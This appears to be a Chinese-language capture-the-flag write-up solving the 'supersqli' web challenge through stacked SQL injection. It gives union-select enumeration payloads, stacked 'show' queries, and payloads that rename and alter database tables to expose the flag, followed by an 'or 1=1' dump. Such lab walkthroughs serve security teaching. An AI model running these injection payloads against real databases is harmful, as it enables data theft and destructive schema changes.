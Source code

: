 ```yaml
---
typora-root-url: img
---
```


# supersqli

## 一、审题

![](/13.PNG)

## 二、解题思路

1、考点为堆叠注入，通常来说数据库每次执行一条指令，但堆叠注入是例外，在原语句后加上分号，多条语句可以一次执行，但其使用场景有限，受API、数据库引擎、权限等限制，例如利用mysqli_multi_query()函数就支持多条sql语句同时执行，但实际情况中，如PHP为了防止sql注入机制，往往使用调用数据库的函数是mysqli_  query()函数，其只能执行一条语句，分号后面的内容将不会被执行；

2、观察题目，发现题目中直接给了一个注入框，默认查询为`inject=1`，首先尝试闭合条件，发现使用单引号`'`时报错；

<img src="/14.PNG" alt="	" style="zoom: 50%;" />

<img src="/15.PNG" style="zoom:50%;" />

3、尝试使用`order by`或`group by`爆破出当前查询的列数，在尝试过程中需要将其后的单引号注释掉，首先尝试`--`注释，发现被过滤，再尝试`#`注释，可行，并爆破出当前查询列数为2，因为一直到3的时候报错了；

<img src="/16.PNG" style="zoom:50%;" />

4、尝试使用`union select`爆破数据库信息，但是发现有waf；

```
-- 查询库名
' union select 1,group_concat(schema_name) from information_schema.schemata#
/*
几点解释
为什么是group_concat(schema_name)，因为一般是一行显示，所有用该函数拼接结果；
为什么是 1,group_concat(schema_name)，因为union查询的特殊性，每个 SELECT 语句必须拥有相同数量的列，列也必须拥有相似的数据类型，同时，每个 SELECT 语句中的列的顺序必须相同，所以需要找一个字符串型的列进行联合查询
*/
-- 查询表名
' union select 1,group_concat(table_name) from information_schema.tables where table_schema='库名'#
-- 查询列名
' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名'#
-- 查询列内容
' union select 1,group_concat(列名) from 列名#
```

<img src="/17.PNG" style="zoom:50%;" />

5、注意到select关键字被过滤后，可以考虑绕过或者尝试堆叠注入，此处为堆叠注入；

6、使用show命令查看库名、表名、列名；

```s
1';show databases;# -- 查看库名的命令
-- 结果有六个，分别为ctftraining，information_schema，mysql，performance_schema，supersqli，test
1';show tables;# -- 查看当前库的表名的命令
-- 结果有两个，分别为1919810931114514，words
1';show columns from words;# -- 查看words表中的列
-- 结果有两个，分别为int(10)型的id，varchar(20)型的data
1';show columns from `1919810931114514`;# -- 查看1919810931114514表中的列，字符串为表名或字段名操作时要加反引号，这个解释不完整，当字符串为表名时，如果是保留字或者无法解释时，加上反引号就能被作为表名或字段名，如果只是正常的字符串可以不加反引号
-- 结果为varchar(100)型的flag
```

7、由上面对表中列的查询结果可知，当前操作的表为words，而需要的flag在1919810931114514表中，可以使用rename和alter来对1919810931114514表进行操作，rename更改表名，alter更改表中的列；

```
-- 将words表重命名为word
-- 将1919810931114514表重命名为words
-- 将1919810931114514表中的flag字段重命名为id
1';rename tables `words` to `word`;rename tables `1919810931114514` to `words`;alter table `words` change `flag` `id` varchar(100);#
-- 特别注意，不能将这前两句分开执行，因为执行第一句后，words表就没了，无法执行堆叠查询
-- 最后也可以向表中加入id列
1';rename tables `words` to `word`;rename tables `1919810931114514` to `words`;alter table `words` add `id` int(10);#
```

8、此时再使用`1' or 1=1#`，进行为真查询就能够返回最终结果，这里解释一下为什么需要这样做，有了这个相当于where条件一定为真，相当于没有where子句，等价于直接执行select * from table；

<img src="/18.PNG" style="zoom:50%;" />
